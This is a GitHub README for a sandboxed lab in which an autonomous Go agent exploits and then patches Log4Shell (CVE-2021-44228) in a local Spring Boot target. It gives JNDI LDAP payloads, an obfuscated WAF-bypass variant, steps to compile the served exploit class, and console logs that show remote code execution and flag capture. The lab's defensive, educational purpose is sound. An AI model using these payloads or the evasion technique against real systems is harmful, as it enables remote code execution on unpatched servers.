



<p align="center">
  
</p>

<h1 align="center">🤖 AUTO AUDIT</h1>

<p align="center">
  <b>Isolated demonstration lab of an autonomous reactive executor agent (Go/Java)</b>
</p>

<p align="center">
  <a href="README.md"><b>Русский 🇷🇺</b></a> • <a href="README.en.md"><b>English 🇬🇧</b></a> • <a href="README.zh.md"><b>中文 🇨🇳</b></a> • <a href="README.es.md"><b>Español 🇪🇸</b></a> • <a href="README.de.md"><b>Deutsch 🇩🇪</b></a> • <a href="README.it.md"><b>Italiano 🇮🇹</b></a> • <a href="README.ar.md"><b>العربية 🇸🇦</b></a>
</p>

<p align="center">
  <a href="https://golang.org"></a>
  <a href="https://openjdk.org"></a>
  <a href="https://maven.apache.org"></a>
  <a href="LICENSE"></a>
  <a href="https://github.com/C00LN3T/Log4ShellAuditor/graphs/traffic"></a>
  <a href="https://github.com/C00LN3T/Log4ShellAuditor/graphs/traffic"></a>
</p>

---

## 🧭 Overview

> [!NOTE]
> **AUTO AUDIT** is a software system demonstrating a **100% autonomous closed-loop (Sense-Think-Act)** cycle of vulnerability discovery, validation, exploitation, auto-remediation (self-healing), and compliance reporting for the critical **Log4Shell** vulnerability (**CVE-2021-44228**).
>
> The sandbox spawns a local target web application built on **Java Spring Boot**, an embedded **LDAP TCP Callback Listener**, and a cognitive **Go agent** kernel, which coordinates actions in a partially observable environment (*Partially Observable Markov Decision Process — POMDP*).




---

## 🛠️ Technical Architecture & Components

The agent's software structure is developed following Hexagonal Architecture (Ports and Adapters), SOLID, and TDD principles:

* 📂 **[cmd/agent/main.go](cmd/agent/main.go)** — Entrypoint. Manages background service lifecycles and coordinates the main agent loop.
* 📂 **`internal/`** — Core business logic of the cognitive circuit:
  * 🧠 **[agent/agent.go](internal/agent/agent.go)** — Cognitive engine. Implements the decision-making policy and agent loop.
  * 💾 **[core/model.go](internal/core/model.go)** — Thread-safe `KnowledgeBase` (LTM) based on a `sync.RWMutex`.
  * 🔌 **[core/effector.go](internal/core/effector.go)** — `Tool` interface for effectors.
  * ⚙️ **[effectors/](internal/effectors/)** — Polymorphic effectors (tools) registry:
    * 🔍 `ToolPortScanner` — Reconnaissance and network port scanning.
    * 🌐 `ToolDiscovery` — Web app parameter mapping and input vectors parsing (`X-Api-Version`).
    * 🔬 `ToolPayloadGenerator` — Synthesizes JNDI signature vectors.
    * 🚀 `ToolProber` — Out-of-Band (OOB) vulnerability verification.
    * 🛡️ `ToolSemanticFuzzer` — Obfuscation mutations (WAF Evasion) via nested lookups.
    * 🩹 `ToolRemediator` — Automated hot patching (Self-Healing).
    * 📄 `ToolReporter` — Security audit report generation.
* 📂 **`pkg/`** — Shared modules and utilities:
  * 📡 **[oob/](pkg/oob/)** — Out-of-band LDAP and HTTP servers.
  * ☕ **[jvm/](pkg/jvm/)** — Manages compiled local Java simulation target process.
* 📂 **[deployments/](deployments/)** — Contains Docker and Compose configuration files.
* 📂 **[test/vulnerable-app/](test/vulnerable-app/)** — Target vulnerable Java Spring Boot microservice.


---

## 🎯 Mathematical Apparatus & Cognitive Loop Specification (Think-Act Loop)

The agent's decision-making process is formalized as a **Partially Observable Markov Decision Process (POMDP)**, represented by the tuple $\langle S, A, T, R, \Omega, O, \gamma \rangle$:
* $S$ is the discrete state space of the target environment (port accessibility, entry parameters mapping, WAF presence, compromise status, patch application, compliance documentation status).
* $A$ is the action space of effectors (execution of tools: `port_scanner`, `discovery`, `payload_generator`, `prober`, `semantic_fuzzer`, `remediator`, `reporter`, `stop`).
* $\Omega$ is the observation space (received HTTP status codes, OOB TCP callbacks, filesystem events).
* $O(o \mid s', a)$ is the observation function, determining the probability of receiving observation $o \in \Omega$ after executing action $a$.

### 1. Belief State Representation
The agent does not have direct access to the hidden state $s \in S$ and operates on a belief state $b(s)$ — a probability distribution over $S$, maintained and dynamically updated within the thread-safe `KnowledgeBase`:
* $b(S_{recon}) \in \{0, 1\}$ — network reconnaissance state (open/closed). Mapped to `ToolPerformance["port_scanner"]`.
* $b(S_{discovery}) \in \{0, 1\}$ — input vectors mapping state (whether parameter locations are found). Mapped to `len(DiscoveryVectors) > 0`.
* $b(S_{payload}) \in \{0, 1\}$ — exploit signature readiness. Mapped to `len(CustomPayloads) > 0`.
* $b(S_{exploit}) \in \{0, 1\}$ — target compromise status (loot capture). Mapped to `len(Loot) > 0`.
* $b(S_{patch}) \in \{0, 1\}$ — hot patch application status. Mapped to `PatchApplied`.
* $b(S_{verify}) \in \{0, 1\}$ — remediation verification status. Mapped to `PatchVerified`.
* $b(S_{report}) \in \{0, 1\}$ — compliance documentation status. Mapped to `ReportGenerated`.

### 2. Policy Mapping
The agent's core decision loop `Think()` implements a deterministic policy $\pi: B \to A$ mapping the current belief state $b$ to the optimal effector action $a \in A$.

### 3. Adaptive Learning & Effector Utility
For each tool $a \in A$, the agent accumulates execution statistics in `ToolStats` and computes a utility metric (Efficiency Score):

$$\text{EfficiencyScore}(a) = \frac{SuccessCount_a}{UsageCount_a}$$

This is leveraged for adaptive pathfinding: if the initial exploitation attempt (`prober`) fails (meaning $\text{EfficiencyScore}(\text{prober}) = 0$), the agent infers WAF filtering, pivots its strategy to activate `semantic_fuzzer` for payload obfuscation, and retries exploitation.

### Step-by-Step Execution Lifecycle:

| Step | Selected Tool | Action & Underlying Process | Belief State Changes |
| :--- | :--- | :--- | :--- |
| **1** | `port_scanner` | Probe TCP socket at target port `:8080`. | HTTP port discovered ($b(S_{recon}) = 1$). |
| **2** | `discovery` | Analyze headers and page structure. | Parameter `X-Api-Version` identified as an entry point ($b(S_{discovery}) = 1$). |
| **3** | `payload_generator` | Construct raw JNDI exploit signature. | Payloads updated with `\${jndi:ldap://127.0.0.1:1389/Exploit\}` ($b(S_{payload}) = 1$). |
| **4** | `prober` | Exploitation attempt. Agent sends payload. | Blocked by target's WAF. $\text{EfficiencyScore}(\text{prober}) = 0$. |
| **5** | `semantic_fuzzer` | Signature mutation via nested lookups. | Obfuscated payload generated ($b(S_{payload}) = 1$, WAF bypass). |
| **6** | `prober` | Exploit payload delivery with mutated signature. | LDAP server captures incoming TCP redirect. RCE confirmed ($b(S_{exploit}) = 1$). |
| **7** | `remediator` | Auto-Remediation. Hot patch target application config. | JVM properties re-initialized with `-Dlog4j2.formatMsgNoLookups=true` ($b(S_{patch}) = 1$). |
| **8** | `prober` | Verification (re-testing). | LDAP server monitors callback port. Connection absent $\rightarrow$ $b(S_{verify}) = 1$. |
| **9** | `reporter` | Write compliance report. | Audit report generated at `reports/cve_2021_44228_report.md` ($b(S_{report}) = 1$). |
| **10**| `stop` | Termination. | Loop complete. |

## 📊 Algorithm Flowcharts

### 1. General Agent Lifecycle Flowchart (Sense-Think-Act Loop)
This diagram illustrates the continuous runtime lifecycle of the agent, starting from initialization up to compliance report compilation and session shutdown.



### 2. Decision Core Algorithm Flowchart (Think)
This diagram maps out the precise decision logic executed by the `Think()` function at each iteration of the loop, based on the current Belief State:



---

## 📦 Vulnerable Java Application Specification

The target app under `test/vulnerable-app/` is a REST controller powered by **Spring Boot 2.7.18** with legacy **Apache Log4j2** dependency:

```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.1</version> <!-- Vulnerable version supporting JNDI lookup -->
</dependency>
```

The vulnerable endpoint logs HTTP headers without sanitization:
```java
logger.info("[AUDIT] API Version header logged: {}", apiVersion);
```

When receiving `${jndi:ldap://...}`, log4j core initiates LDAP resolution to the listener port `1389`.

---

## 🚀 Setup & Launch

The simulation lab supports two deployment modes: local execution directly on the host machine (Option A) or fully containerized execution in an isolated network environment using Docker Compose (Option B).

### Option A. Local Launch on Host Machine

#### Prerequisites
* **JDK 17+** (verify via `java -version`)
* **Maven 3.8+** (verify via `mvn -version`)
* **Go 1.21+** (verify via `go version`)

#### 1. Build Java Target Microservice
Compile target Java app to an executable fat JAR:
```bash
cd test/vulnerable-app
mvn clean package
cd ../..
```
*Verify that `test/vulnerable-app/target/vulnerable-app-simple-1.0.0.jar` was created.*

#### 2. Build Exploit Payload
Compile the Java class served by the HTTP webserver:
```bash
javac internal/payload/Exploit.java
```

#### 3. Build & Run Autonomous Sandbox
Run Go main loop using interpretation on-the-fly:
```bash
go run ./cmd/agent
```

Or compile to a standalone executable binary:
```bash
go build -o test_agent ./cmd/agent
./test_agent
```

---

### Option B. Run in Isolated Container Sandbox (Docker Compose)

> [!TIP]
> This method does not require installing Go, Java, or Maven on your host machine. The entire lab setup builds and runs automatically inside an isolated virtual network sub-segmented at `172.20.0.0/16`.


#### Prerequisites
* **Docker** and **Docker Compose** plugin installed (verify via `docker compose version`).

#### 1. Launch the Lab
Build the container images and spawn the services with a single command from the project root:
```bash
docker compose -f deployments/docker-compose.yml up --build
```

#### 2. Lifecycle & Internal Processes:
* `vulnerable-app` compiles the Spring Boot application, mounts internal directories, writes the secret flag into `/var/lib/secret/flag.txt`, and serves endpoints on port `:8080`.
* `reflective-agent` builds the Go compiler stage, compiles `Exploit.java`, runs LDAP/HTTP listeners, and launches the cognitive loop.
* The local directory `reports/` on your host filesystem is mounted to the agent container — the final GOST compliance report is automatically stored in your host folder at `reports/cve_2021_44228_report.md`.

#### 3. Stop the Sandbox
To clean up container environments and release network configurations, run:
```bash
docker compose -f deployments/docker-compose.yml down
```

---

## 📊 Sample Console Output

```text
=== ДЕМОНСТРАЦИОННЫЙ СТЕНД РЕАКТИВНОГО АГЕНТА (JAVA SPRING TARGET) ===
[*] Запуск скомпилированного уязвимого Java Spring приложения локально...
[*] Ожидание инициализации веб-контекста Spring (3.5 сек)...
[*] Инициализация агента-исполнителя для цели: http://localhost:8080
================================================================
[ВЫВОД] Выбран инструмент: 'port_scanner' (Текущая фаза: Reconnaissance)
[ЭФФЕКТОР:port_scanner] Сканирование порта localhost:8080...
[НАБЛЮДЕНИЕ] OBSERVATION: Обнаружен открытый HTTP-порт localhost:8080. Java Spring Web-служба отвечает.

[ВЫВОД] Выбран инструмент: 'discovery' (Текущая фаза: Discovery)
[ЭФФЕКТОР:discovery] Исследование структуры веб-приложения http://localhost:8080...
[НАБЛЮДЕНИЕ] OBSERVATION: Обнаружены потенциальные векторы ввода: GET-параметр '/?input=' и HTTP-заголовок 'X-Api-Version'.

[ВЫВОД] Выбран инструмент: 'payload_generator' (Текущая фаза: Discovery)
[ЭФФЕКТОР:payload_generator] Анализ уязвимостей и синтез сигнатур...
[НАБЛЮДЕНИЕ] OBSERVATION: Сгенерирована сигнатурная нагрузка для CVE-2021-44228: '${jndi:ldap://127.0.0.1:1389/Exploit}'.

[ВЫВОД] Выбран инструмент: 'prober' (Текущая фаза: Discovery)
[ЭФФЕКТОР:prober] Первичная атака: Отправка нагрузки '${jndi:ldap://127.0.0.1:1389/Exploit}' на http://localhost:8080...
[НАБЛЮДЕНИЕ] FAILURE: Атака не удалась. Уязвимость не эксплуатирована или флаг не перехвачен.

[ВЫВОД] Выбран инструмент: 'semantic_fuzzer' (Текущая фаза: Discovery)
[ЭФФЕКТОР:semantic_fuzzer] Запуск обфускации и семантического фаззинга против WAF...
[НАБЛЮДЕНИЕ] OBSERVATION: Сгенерирован обфусцированный вектор обхода: '${${lower:j}ndi:ldap://127.0.0.1:1389/bypass}'.

[ВЫВОД] Выбран инструмент: 'prober' (Текущая фаза: Discovery)
[ЭФФЕКТОР:prober] Первичная атака: Отправка нагрузки '${${lower:j}ndi:ldap://127.0.0.1:1389/bypass}' на http://localhost:8080...
[LDAP SERVER] Получен LDAP BindRequest. Отправка BindResponse...
[LDAP SERVER] Получен LDAP SearchRequest. Отправка JNDI Referral...
[HTTP SERVER] Получен запрос на загрузку Exploit.class
[HTTP SERVER] >>> ПЕРЕХВАЧЕН СЕКРЕТНЫЙ ФЛАГ: FLAG{LOCAL_HOST_LOG4SHELL_SECRET_2026} <<<
[НАБЛЮДЕНИЕ] SUCCESS: LDAP Callback получен на порту 1389. RCE отработал. Перехваченный флаг: FLAG{LOCAL_HOST_LOG4SHELL_SECRET_2026}.

[ВЫВОД] Выбран инструмент: 'remediator' (Текущая фаза: Remediation)
[ЭФФЕКТОР:remediator] Анализ причин уязвимости и генерация исправления для http://localhost:8080...
[ЭФФЕКТОР:remediator] Отправка команды применения патча на http://localhost:8080/remediate...
[НАБЛЮДЕНИЕ] REMEDIATION_SUCCESS: Патч применен. На целевое приложение отправлен запрос ремедиации (изменен флаг -Dlog4j2.formatMsgNoLookups=true). JVM успешно переинициализирована.

[ВЫВОД] Выбран инструмент: 'prober' (Текущая фаза: Verification)
[ЭФФЕКТОР:prober] Верификация патча: Повторная атака уязвимости на http://localhost:8080...
[НАБЛЮДЕНИЕ] VERIFICATION_SUCCESS: Попытка эксплуатации отклонена сервером. Входящий TCP-коллбек на порт 1389 отсутствует. Уязвимость успешно устранена.

[ВЫВОД] Выбран инструмент: 'reporter' (Текущая фаза: Verification)
[ЭФФЕКТОР:reporter] Формирование отчета об уязвимости по стандартам РФ для http://localhost:8080...
[НАБЛЮДЕНИЕ] REPORT_SUCCESS: Отчет успешно сгенерирован и сохранен в файл 'reports/cve_2021_44228_report.md'.

================================================================
[INFO] Жизненный цикл аудита, патчинга и комплаенса завершен.
```

---

## 📜 Compliance & Security Policies
The compliance report generated at `reports/cve_2021_44228_report.md` conforms to key cybersecurity frameworks:
* **GOST R 56939-2016** — Information protection. Secure software development.
* **Federal Law No. 152-FZ** "On Personal Data" requirements.
* **Federal Law No. 187-FZ** "On the Security of the Critical Information Infrastructure of the Russian Federation".

---

## 🛡️ License
This project is licensed under the **MIT License**. See the [LICENSE](LICENSE) file for details.
